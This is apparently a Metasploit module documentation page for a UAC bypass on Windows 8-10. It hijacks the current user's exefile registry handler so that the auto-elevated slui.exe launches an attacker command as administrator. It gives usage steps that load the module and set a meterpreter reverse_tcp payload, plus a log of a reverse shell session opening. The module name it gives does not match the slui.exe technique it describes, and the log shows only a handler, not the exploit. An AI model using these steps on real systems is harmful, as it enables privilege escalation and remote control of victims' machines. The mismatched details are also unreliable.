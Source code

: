 ## Intro

  This module will bypass UAC on Windows 8-10 by hijacking a special key in the Registry under
  the Current User hive, and inserting a custom command that will get invoked when
  any binary (.exe) application is launched. But slui.exe is an auto-elevated binary that is
  vulnerable to file handler hijacking. When we run slui.exe with changed Registry key
  (HKCU:\Software\Classes\exefile\shell\open\command), it will run our custom command as Admin
  instead of slui.exe.

  The module modifies the registry in order for this exploit to work. The modification is
  reverted once the exploitation attempt has finished.
	
  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting the
  payload in a different process.

## Usage
	
  1. First we need to obtain a session on the target system.
  2. Load module: `use exploit/windows/local/bypassuac_comhijack`
  3. Set the `payload`: `set payload windows/x64/meterpreter/reverse_tcp`
  4. Configure the `payload`.

## Scenario

```
msf exploit(multi/handler) > 
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: 1p4jbbka) Encoded stage with x86/shikata_ga_nai
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: 1p4jbbka) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (192.168.0.30:443 -> 192.168.0.33:49775) at 2018-04-07 09:59:42 +0200

msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  WIN10-01\user01 @ WIN10-01  192.168.0.30:443 -> 192.168.0.33:49775 (192.168.0.33)

msf exploit(multi/handler) >




```
